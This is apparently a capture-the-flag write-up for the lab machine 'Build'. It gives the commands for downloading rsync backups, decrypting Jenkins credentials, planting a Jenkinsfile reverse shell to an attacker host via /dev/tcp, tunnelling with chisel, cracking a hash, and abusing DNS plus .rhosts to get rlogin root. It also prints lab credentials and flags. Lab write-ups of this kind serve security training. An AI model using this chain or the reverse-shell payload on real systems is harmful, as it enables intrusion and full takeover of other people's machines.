## Summary
Build is a Linux machine that demonstrates a comprehensive attack chain involving rsync enumeration, Jenkins credential decryption, Gitea webhook exploitation, Docker container access, internal network pivoting, and privilege escalation through DNS manipulation and rlogin authentication. The attack begins with discovering rsync allowing anonymous access to backup files, enabling extraction and decryption of Jenkins credentials. Using these credentials, we access the Gitea instance, exploit a webhook to execute code via Jenkins, and gain access to a Docker container. Through internal network enumeration and pivoting, we discover a PowerDNS Admin instance, crack credentials, modify DNS records, and ultimately exploit rlogin for complete system compromise.

## Recon

### Initial Enumeration
We begin by scanning the target machine to identify open ports:

```shell
nmap -sC -sV -p- -v 10.129.234.169 --min-rate 1000
```

**Key Findings:**
- Port 22: SSH (OpenSSH 8.9p1)
- Port 53: PowerDNS service
- Ports 512-514: RSH services (rexecd, login, shell)
- Port 873: Rsync service (protocol version 31)
- Port 3000: Gitea web application

**Critical Discovery:** The rsync service (port 873) is open, which can allow anonymous access to file shares, potentially exposing sensitive backup files.

### RSync Enumeration and Backup Access
We test if the rsync service allows anonymous listing:

```shell
rsync --list-only rsync://10.129.234.169
```

**Result:** The service shows a `backups` share that is accessible without authentication.



We download the entire backups directory to our local machine for analysis:

```shell
rsync -av rsync://10.129.234.169/backups backups
```

The transfer reveals a significant file: `jenkins.tar.gz`, indicating Jenkins configuration and potentially sensitive credentials.



After extracting the archive, we examine the structure:

```bash
tar xf jenkins.tar.gz
```



**File Structure Analysis:**
- Jenkins configuration files
- Job definitions and build history
- Secret files including `master.key` and `hudson.util.Secret`

### Jenkins Credential Decryption
Within the backup files, we discover encrypted credentials in `/jobs/build/config.xml`:



We use the Jenkins decryptor tool along with the extracted master key and secret files:

```shell
pipx install git+https://github.com/dadevel/jenkins-decryptor.git@main
jenkins-decryptor backups/jenkins_configuration/secrets/master.key backups/jenkins_configuration/secrets/hudson.util.Secret backups/jenkins_configuration/jobs/build/config.xml
```



**Decryption Success:** The tool successfully decrypts the credentials, revealing:
- **Username:** `buildadmin`
- **Password:** `Git1234!`



## Shell in Container

### Gitea Access and Webhook Discovery
Using the decrypted credentials, we log into the Gitea instance running on port 3000:

**Credentials:** `buildadmin:Git1234!`

**Initial Access:** Successful login provides access to repositories and configuration settings.



Within the Gitea project settings, we discover a configured webhook that triggers Jenkins builds.



Found a webhook at:
```
http://10.129.234.169:3000/buildadm/dev/settings/hooks
```



**Exploitation Opportunity:** Webhooks that execute Jenkins pipelines can be exploited by modifying the pipeline definition to execute arbitrary commands.

### Remote Code Execution via Jenkins Pipeline
We modify the `Jenkinsfile` in the repository to include a reverse shell payload:

```js
pipeline {
    agent any

    stages {
        stage('Do nothing') {
            steps {
                sh 'bash -c "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"'
            }
        }
    }
}
```



After committing the modified Jenkinsfile to the repository, the webhook automatically triggers a Jenkins build, which executes our reverse shell payload.

**Reverse Shell Success:** Our netcat listener receives a connection, granting us shell access to the Jenkins build agent.



### Container Analysis and Initial Foothold
Upon gaining shell access, we discover we're inside a Docker container rather than the main host.

**Container Discovery:** We find `user.txt` in `/root`, confirming containerized environment.



**User Flag:** `466098e1d44521703f270f93699c40f7`

## Shell as root

### Container Escape and Internal Network Discovery
A critical discovery in the container's root directory is a `.rhosts` file:

```bash
cat .rhosts
```



**Configuration Content:**
```
intern.build.vl
```

**Security Implication:** This file allows passwordless root login from the specified hostname via rlogin/rsh services when DNS resolution points to an allowed IP address.

### Proxy Tunneling for Tool Installation
The Docker container has minimal tools installed, lacking essential enumeration utilities.

We configure Burp Suite as a transparent proxy to intercept and modify HTTP requests from the container:




**Container Proxy Configuration:**
```bash
export http_proxy=http://<IP>:8080/
```

Using the proxy, we can now install necessary tools:

```bash
apt-get -o Acquire::ForceIPv4=true update
apt-get -o Acquire::ForceIPv4=true install net-tools -y
apt-get -o Acquire::ForceIPv4=true install nmap -y
apt-get -o Acquire::ForceIPv4=true install mariadb-client -y
```



### Internal Service Enumeration
After running network enumeration with `arp -a`, we discovered internal hosts:



Scanning the Docker host (`172.18.0.1`) reveals an open MySQL port:

```bash
nmap -sC -sV -p- -v 172.18.0.1 --min-rate 5000
```



**MySQL Access:** The database allows root access without a password:

```bash
mysql -h 172.18.0.1 -u root -p
```



Within the database, we find PowerDNS Admin credentials:



And DNS information:
```
pdns.build.vl
```



We extract and crack the hash using John the Ripper:

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



**Cracked Credentials:** `admin:winston`

### PowerDNS Admin Access and DNS Manipulation
Further enumeration reveals a PowerDNS Admin instance running on `172.18.0.6`:

```bash
nmap -sC -sV -p- -v 172.18.0.6 --min-rate 5000
```



Since the PowerDNS Admin service is only accessible internally, we set up a SOCKS5 tunnel:

**Local Chisel Server:**
```shell
chisel server --socks5 --reverse -p 7070 
```

**Container Chisel Client:**
```shell
chisel client <IP>:7070 R:80:172.18.0.6:80
```

Through the tunnel, we access the PowerDNS Admin web interface and authenticate with the cracked credentials (`admin:winston`).



**Administrative Access:** Successful login provides full control over DNS zones and records.



### DNS Record Manipulation for Privilege Escalation
Recall the `.rhosts` file content:
```
intern.build.vl
```

**Privilege Escalation Path:** To exploit the passwordless root login via rlogin, the hostname `intern.build.vl` must resolve to our IP address.

Using PowerDNS Admin privileges, we modify the DNS record for `intern.build.vl` to point to our IP address.



**DNS Manipulation:** By changing the A record for `intern.build.vl` to point to our IP address, we satisfy the `.rhosts` authentication requirement.

### Root Access via Rlogin
With the DNS record pointing to our machine, we can now use rlogin to connect as root without a password:

```shell
rlogin 10.129.234.169
```



**Root Access Achieved:** The rlogin service authenticates us as root based on the `.rhosts` configuration and DNS resolution.

As root, we access the root flag:



**Root Flag:** `b7b1e48179891ea87e77b1f83bada971`